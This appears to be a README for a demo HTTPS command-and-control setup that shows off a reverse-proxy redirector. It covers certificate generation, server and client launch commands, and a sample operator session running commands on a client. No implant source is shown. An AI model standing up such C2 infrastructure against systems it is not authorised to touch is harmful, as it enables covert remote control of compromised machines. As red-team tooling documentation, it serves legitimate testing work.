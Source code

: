 # Dispatch Redirector Demo

## Overview
The following code provides a sample C2 over HTTPS to demonstrate Dispatch's Reverse Proxy functionality. 

- Accepts connections multiple from clients
- Routes traffic through front-end proxies (e.g., NGINX, CDN)
- Maintains secure communication over HTTPS
- Provides an interactive operator shell for issuing commands


## 🛠️ Dispatch Setup
### 1. General SSL Cert & Start the Server
```bash
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
python3 server.py --host <bind_host> --port <bind_port>
```

### 2. Setup Dispatch routes to redirect client traffic
<img height="400" alt="rProxy" src="https://github.com/user-attachments/assets/508adf2c-33f6-4088-a800-93d4a597c074" />


### 3. Start the client directing it at Dispatch redirector
```bash
 python3 client.py --url https://<dispatch_server>
```

### 4. Interact with connected clients
```bash
[!] New client registered: client-1 (192.168.1.100)
(server) > interact client-1
[*] Entering session with client-1. Type 'bg' to return.

(client-1) > whoami
[+] Response from client-1:
root
```
